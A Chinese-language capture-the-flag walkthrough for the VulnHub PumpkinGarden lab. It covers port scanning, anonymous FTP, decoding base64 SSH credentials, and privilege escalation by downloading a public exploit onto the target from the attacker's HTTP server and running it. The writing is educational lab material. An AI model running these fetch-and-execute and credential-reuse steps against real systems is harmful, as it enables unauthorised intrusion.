

# PumpkinGarden-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkingarden,321/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinGarden is Level 1 of series of 3 machines under Mission-Pumpkin v1.0. The end goal of this CTF is to gain access to PumpkinGarden_key file stored in the root account.

**知识点**

无重要知识点

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关,这里 `192.168.141.128` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.128
```


从 nmap 的探测结果看，存在 ftp、http、ssh 服务,且 ftp 允许匿名登录，vsftpd 的版本是 2.0.8 或之后，也没找到可利用的漏洞

从 ftp 匿名登录入手
```
ftp 192.168.141.128
    anonymous
    密码为空,直接回车
ls
get note.txt
bye
```

看一下发现的 note.txt
```
cat note.txt
Hello Dear!
Looking for route map to PumpkinGarden? I think jack can help you find it.
```

提示说 jack 可以帮助你，可能是个用户名。

看下 http 的情况


一个南瓜猫猫头,页面上没有可交互的内容, Ctrl+U 看下源码



```
searching for the route map? Pumpkin images may help you find the way
```
提示图片有些东西,访问 `/img` 路径下


像个 base64
```bash
echo "c2NhcmVjcm93IDogNVFuQCR5" | base64 -d
scarecrow : 5Qn@$y
```

看上去是 ssh 的账号密码,登上去试试


home 目录里的 note.txt 给出了 goblin Y0n$M4sy3D1t 这个账号密码，su 切换过去


按照 goblin home 目录 note 文件给出的提示

下载 https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh

> 注 : 我访问报 503 Service Temporarily Unavailable ,下载 https://www.exploit-db.com/exploits/11651 这个也一样

> 注意 : https://www.exploit-db.com/exploits/11651 的存在 /bin/sh^M : bad interpreter 问题

kali 下载 payload
```bash
wget https://www.exploit-db.com/download/11651

vim 11651
:set ff=unix
:wq!

python -m SimpleHTTPServer 8000
```

靶机下载,运行
```bash
cd
wget 192.168.141.134:8000/11651
chmod +x 11651
./11651 /bin/sh
```


---

后台运行了删除脚本的命令
```bash
/bin/sh -c sleep 30; rm /home/goblin/*.*
/bin/sh -c sleep 30; rm /tmp/*
```

我这里是在 goblin 用户的 home 目录下运行的,且没给他后缀名,所以没受影响 :)
